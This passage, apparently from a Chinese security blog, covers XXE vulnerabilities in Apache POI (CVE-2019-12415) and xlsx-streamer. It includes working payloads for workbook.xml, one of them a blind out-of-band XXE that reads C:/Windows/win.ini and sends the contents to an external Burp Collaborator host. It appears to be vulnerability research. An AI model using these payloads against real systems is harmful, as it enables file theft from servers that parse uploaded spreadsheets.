 ```
org.xml.sax.SAXParseException: The parser has encountered more than "4,096" entity expansions in this document; this is the limit imposed by the application.
```

### [CVE-2019-12415]Apache POI <= 4.1.0 XXE 漏洞 
参考：
https://b1ue.cn/archives/241.html
https://xz.aliyun.com/t/6996#toc-3
https://infosecwriteups.com/cve-2019-12415-xml-processing-vulnerability-579fdbfbaa18

其中的条件之一是必须使用`XSSFExportToXml`类 进行xlsx 转 xml。
参考：
https://github.com/alibaba/easyexcel/issues/1627
但是发现这个easyexcel并没有使用到`XSSFExportToXml`类。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210316102358132.png)


#### xlsx-streamer.jar的XXE漏洞
影响范围
xlsx-streamer.jar-2.0.0及以下版本

利用点
xl/workbook.xml


先使用这个payload：
```xml
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://oh98u9fef0g5jmf8j8b2raejva15pu.burpcollaborator.net/x"> %ext;
]>
<r></r>
```
虽然报了这个错，
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201116170657305.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70#pic_center)

```
org.xml.sax.SAXParseException; systemId: http://oh98u9fef0g5jmf8j8b2raejva15pu.burpcollaborator.net/x; lineNumber: 1; columnNumber: 2; The markup declarations contained or pointed to by the document type declaration must be well-formed.
```
但是还是解析了：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201116170435319.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70#pic_center)
payload参考：
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection
由于是盲xxe，所以需要带外方式读取文件，然后修改之前的payload为
```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "file:///C:/Windows/win.ini" >
<!ENTITY callhome SYSTEM "http://200mdnysyezj20ym2mugaoxxeokm8b.burpcollaborator.net/?%xxe;">
]
>
<foo>&callhome;</foo>
```
